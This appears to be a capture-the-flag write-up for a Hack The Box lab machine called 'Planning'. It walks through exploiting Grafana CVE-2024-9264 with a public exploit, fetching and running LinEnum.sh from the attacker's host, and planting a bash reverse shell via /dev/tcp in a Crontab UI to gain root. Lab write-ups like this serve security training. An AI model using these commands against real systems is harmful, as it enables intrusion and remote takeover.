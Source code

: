 # 🗂️Planning

## 🧠Summary
  > The target machine "Planning" exposes a misconfigured Grafana 11 instance on a subdomain, grafana.planning.htb, which is vulnerable to Remote Code Execution (RCE) via the SQL Expressions feature. This vulnerability, tracked as CVE-2024-9264, allows post-processing of query data using DuckDB, which fails to sanitize user-supplied SQL properly. By exploiting this flaw, we were able to gain remote command execution inside a Docker container. Further enumeration led to credential discovery and access to a Crontab UI interface hosted on port 8000. By injecting a reverse shell payload through the scheduler interface, we achieved privilege escalation and accessed the root flag.
  
  > The link to the git repo 👉 [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v planning.htb
  ```
- The result of the nmap scan is ![](./screenshots/nmap_scan.png)
- The ssh and http ports are open

## 🌐Step 2 (Web enumeration)
- Did web enumeration manual and used dirsearch but found nothing useful
  ![](./screenshots/dirsearch.png)
- As a result decided to find if any subdomain exist, used gobuster and a custom generated wordlist from chatgpt
  ```bash
  gobuster dns -d planning.htb -w /home/raihan/Documents/m_planning/wordlist.txt --no-error
  ```
  ![](./screenshots/gobuster.png)
- Here found that a subdomain grafana exist
- Entered the webpage grafana.planning.htb and found a login page and logged in using the given creds

## 📌Step 3 (Loop hole)
- Searched in web about grafana and found two important links leading to the successful pawning of this machine
- Link 1 (write up about grafana's vulnerablity) 👉 [https://grafana.com/blog/security_vulnerabity](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/)
- Link 2 (Exploit found for the CVE-2024-9264) 👉 [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)
- Downloaded the exploit code using git clone
  ```bash
  git clone https://github.com/nollium/CVE-2024-9264
  ```
- Executed the downloaded exploit and tryed to dump the /etc/passwd file and found out that the output shows that it is the root of docker
- So used LinEnum.sh to escape from the docker
- After hosting LinEnum in my machine used the command
  ```bash
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://<your-ip>:<port>/LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "chmod +x LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "./LinEnum.sh" http://grafana.planning.htb
  ```
- After execution got the creds username and password
  ![](./screenshots/creds.png)

## ⚓Step 4(Foothold)
- SSH into the machine using the obtained creds
  ```bash
  ssh enzo@planning.htb
  ```
- Gained the shell and obtained the user flag
- Checked if any binary misconfig or any non password executable binary exist but non
- Proceeded on checking each directory and found a crontab.db
- Cat the file and found a password
- Further checked if any additional proccess is happening using
  ```bash
  netstat -tulpn
  ```
- Found it is hosting a webpage in port 8000
  ```bash
  ssh 8000:localhosts:8000 enzo@planning.htb
  ```
- Found a webpage that hosts crontab
  [](./screenshots/crontab_web.png)
- Inserted a malicious code that connects to my machine using netcat to gain root shell
  ```bash
  /bin/bash -i >& /dev/tcp/<your ip>/<your port> 0>&1
  ```
- Gained the root shell and got the root flag 🚩
